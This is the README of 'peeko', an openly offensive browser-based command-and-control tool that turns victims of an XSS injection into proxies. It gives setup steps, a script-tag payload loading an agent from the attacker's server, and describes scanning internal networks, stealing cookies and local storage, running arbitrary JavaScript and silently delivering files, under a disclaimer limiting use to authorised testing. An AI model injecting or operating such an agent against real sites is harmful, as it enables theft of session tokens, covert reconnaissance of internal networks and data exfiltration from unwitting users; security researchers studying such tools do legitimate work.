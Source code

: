 ## peeko

**Version:** v1.0

`peeko` is a browser-based XSS-powered C2 (Command and Control) tool that leverages the victim’s browser as a stealthy proxy inside internal networks.

Through an injected XSS payload, peeko establishes a WebSocket connection to a central server, allowing an attacker to remotely control the victim’s browser to send requests to internal services, scan networks, exfiltrate data, or even execute arbitrary JavaScript — all without dropping a single binary.

---

## Features

- WebSocket-based communication between attacker and victims  
- Victim browser fetches internal URLs and scans IP ranges + ports  
- Simple control panel with:
  - Victim selector  
  - Manual URL fetch  
  - IP and port range scanner  
  - Custom JS execution (manual or automatic)  
  - File delivery (auto/manual)  
  - Browser info and token collection (cookies, storage, etc.)  
  - Log viewer with copy/save as `.txt` or `.json`  
- HTTPS support with self-signed certificates  
- Lightweight: single Python file + static assets  

---

## Requirements

- Python 3.8+  
- OpenSSL  
- Linux/macOS (tested on Debian-based systems)  

---

## Quick Start

1. Clone the repository:

    ```bash
    git clone https://github.com/b3rito/peeko.git
    cd peeko
    ```

2. Install dependencies:

    ```bash
    make install
    ```

3. (Optional) Make scripts executable:

    ```bash
    chmod +x gen-cert.sh start.sh
    ```

4. Generate self-signed TLS certificate:

    ```bash
    make cert
    ```

5. Replace the `SERVER-IP` placeholder:

    Open and edit the following files:

    - `static/agent.js`
    - `static/control.html`

    Replace `SERVER-IP` with the IP/domain of your server:

    ```js
    wss://SERVER-IP:8443/ws → wss://192.168.30.136:8443/ws
    ```

6. Start the server:

    ```bash
    make run
    ```

7. Open the control panel in your browser:

    ```
    https://192.168.30.136:8443/static/control.html
    ```

8. Inject the agent (example XSS):

    ```html
    <script src="https://192.168.30.136:8443/static/agent.js"></script>
    ```

---

## Control Panel Features

### Core Functions

- Select and manage connected victims  
- Fetch any internal/external HTTPS URL via the victim  
- Scan LAN ranges: `192.168.1.0/24`, `10.0.0.10-20`, etc.  
- Scan specific ports or ranges (e.g., `80`, `443,8000-8080`)  

### File Delivery

- Send files to the victim (Base64 via WebSocket)  
- Victim browser automatically downloads them  
- Supports auto-upload on connect  

### Info Gathering

- Collect User Agent, platform, referrer, cookies, local/sessionStorage  
- View results in JSON  
- Triggered manually or auto-collect on connect  

### Custom JS Execution

- Run arbitrary JavaScript on the victim browser  
- Use `exec:...` format to send  
- Supports **auto-run** on connect  
- Example: `exec:alert(document.cookie);`  

### Logging

- Everything is logged (requests, responses, info dumps)  
- Copy or export logs as `.txt` or `.json`  
- Minimalist UI designed like a terminal log  

---

## CORS & Mixed Content Explained

Modern browser policies affect what peeko can access.

### CORS Responses

| Header | Can read content? | Notes |
|--------|-------------------|-------|
| `Access-Control-Allow-Origin: *` | ✅ | Full access to response |
| No header | ⚠️ | Response is opaque |
| Restricted origin | ❌ | Blocked or unreadable |

### Mixed Content

Victim connects via HTTPS. If a scanned target only uses HTTP:

- Browser will block mixed content requests  
- peeko cannot read from `http://` endpoints  
- Always prefer targets using HTTPS when scanning

### In Practice

During a penetration test, if you find an internal service that responds with `Access-Control-Allow-Origin: *` and is served over HTTPS, then peeko becomes a stealth proxy capable of exfiltrating internal data directly from the victim's browser without dropping any files or opening outbound connections.


---

## Project Structure

```
peeko/
├── main.py             → FastAPI WebSocket server  
├── start.sh            → Launch server  
├── gen-cert.sh         → Generate self-signed TLS certificate  
├── Makefile            → Install/run helpers  
├── requirements.txt    → Python dependencies  
├── certs/              → TLS key and cert will be stored here  
└── static/             → Browser client assets  
    ├── control.html    → Control panel (was attacker.html)  
    ├── infect.html     → Victim landing page  
    └── agent.js        → Victim agent script  
```

---

## Workflow

1. Attacker injects XSS (via stored or reflected vuln)  
2. Victim’s browser connects via WebSocket to peeko server  
3. Control panel lets attacker:  
   - Scan network  
   - Fetch URLs  
   - Dump cookies, storage  
   - Run arbitrary JS  
   - Exfiltrate responses  

---

## Use Cases

- Internal network mapping via XSS  
- SSRF augmentation  
- Browser-based pivoting  
- Silent file delivery / JS dropper  

---

## Disclaimer

This tool is provided for educational and authorized testing purposes only.  
Any use of peeko outside of environments where you have explicit permission is **strictly prohibited**.  
You are responsible for your own actions.

---

## Authors

Written by **b3rito** at mes3hacklab & **GioPpeTto**
